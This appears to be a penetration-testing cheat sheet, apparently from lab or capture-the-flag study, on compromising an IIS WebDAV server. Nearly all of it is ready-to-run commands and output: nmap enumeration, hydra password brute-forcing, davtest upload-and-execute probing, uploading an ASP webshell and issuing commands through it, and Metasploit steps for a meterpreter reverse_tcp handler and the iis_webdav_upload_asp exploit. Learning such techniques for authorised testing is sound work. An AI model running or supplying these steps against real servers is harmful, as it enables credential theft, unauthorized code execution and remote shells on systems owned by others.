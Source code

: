 
What WebDAV looks like from scan
```bash
nmap -p80 --script http-enum -sV $IP
```

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-enum: 
|_  /webdav/: Potentially interesting folder (401 Unauthorized)
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

# 401 Unauthorized - authentication is enabled
```

Can brute force with hydra
```bash
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt $IP http-get /webdav/
```

## davtest

>Tool that sends exploit files to the WebDAV server and automatically creates the directory then uploads different format types of files and tries to execute uploaded files and gives an output of successfully executed files.

```bash
davtest -url http://$IP/webdav
```

If credentials are needed:
```bash
davtest -auth bob:password_123321 -url http://$IP/webdav
```

Will provide a summary of files that were uploaded:
```bash
/usr/bin/davtest Summary:
Created: http://$IP/webdav/DavTestDir_a7XjUR
PUT File: http://$IP/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.txt
PUT File: http://$IP/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.cfm
PUT File: http://$IP/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.cgi
PUT File: http://$IP/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.aspx
PUT File: http://$IP/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.asp
PUT File: http://$IP/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.html
PUT File: http://$IP/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.php
PUT File: http://$IP/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.jsp
PUT File: http://$IP/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.jhtml
PUT File: http://$IP/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.shtml
PUT File: http://$IP/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.pl
Executes: http://$IP/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.txt
Executes: http://$IP/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.asp
Executes: http://$IP/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.html
```

Then will provide screenshot of what files were successfully uploaded as well as which files were successfully executed.

Uploading files with davtest. Use one of the executable file types from above test and a location that worked.
```bash
davtest -auth bob:password_123321 -url http://$IP/webdav -uploadfile /usr/share/webshells/asp/webshell.asp -uploadloc /DavTestDir_i9JStP/
```

Then run commands like this:
```bash
http://10.0.16.177/webdav/webshell.asp?cmd=whoami
```

```bash
URL: http://$IP$webdav/webshell.asp?cmd=type+C%3A%5Cflag.txt
```
## cadaver
```bash
cadaver http://$IP/webdav
```


Ex. script to use
```bash
/usr/share/webshells/asp/webshell.asp
```

Upload files via `put` and once uploaded they can be executed from browser ex. `http://$IP/webdav/webshell.asp`

## Metasploit

Can do the same with msvenom payload then use metasploit via:
```bash
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
set LHOST $IP
set LPORT 4444
run
```

Another option to use metasploit for the entire process. 
```bash
use exploit/windows/iis/iis_webdav_upload_asp
set RHOSTS $IP
set HttpUsername $USER
set HttpPassword $PASSWORD
set PATH /webdav/metasploit.asp
exploit
```

